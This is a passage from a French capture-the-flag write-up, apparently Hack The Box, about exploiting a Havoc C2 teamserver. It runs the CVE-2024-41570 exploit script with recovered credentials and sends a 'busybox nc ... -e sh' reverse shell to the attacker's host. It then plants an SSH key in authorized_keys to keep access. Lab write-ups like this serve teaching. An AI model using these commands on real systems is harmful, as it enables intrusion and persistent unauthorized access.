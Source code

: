 {{< highlight go "hl_lines=1" >}}
$ ./havoc client
              _______           _______  _______ 
    │\     /│(  ___  )│\     /│(  ___  )(  ____ \                                            
    │ )   ( ││ (   ) ││ )   ( ││ (   ) ││ (    \/                                            
    │ (___) ││ (___) ││ │   │ ││ │   │ ││ │                                                  
    │  ___  ││  ___  │( (   ) )│ │   │ ││ │                                                  
    │ (   ) ││ (   ) │ \ \_/ / │ │   │ ││ │                                                  
    │ )   ( ││ )   ( │  \   /  │ (___) ││ (____/\                                            
    │/     \││/     \│   \_/   (_______)(_______/                                            

         pwn and elevate until it's done

[12:47:53] [info] Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]
[12:47:53] [info] loaded config file: client/config.toml
[12:47:54] [info] Connecting to profile: HTB
<string>:114: SyntaxWarning: invalid escape sequence '\W'
[12:47:54] [info] Started "Demon Listener" listener
{{< /highlight >}}

On lance l'exploit en utilisant le compte d'`Ilya` récupéré dans le fichier `havoc.yaotl` et on exécute la commande suivante afin d'obtenir un reverse shell sur le serveur:
{{< highlight go "hl_lines=1 11" >}}
$ python3 CVE-2024-41570.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056 -U ilya -P 'CobaltStr1keSuckz!'
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
...
Enter command to execute: busybox nc 10.10.14.173 80 -e sh
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
{{< /highlight >}}

Le reverse shell obtenu n'étant pas stable et se coupant rapidement, on ajoute notre clé ssh dans le fichier de clés autorisées du compte d'`Ilya`.
{{< highlight go "hl_lines=1 4 5" >}}
$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.173] from (UNKNOWN) [10.10.11.49] 60884
echo "ssh-ed25519 A...k kali@kali" >> /home/ilya/.ssh/authorized_keys
cat /home/ilya/.ssh/authorized_keys
...
ssh-ed25519 A...k kali@kali
{{< /highlight >}}
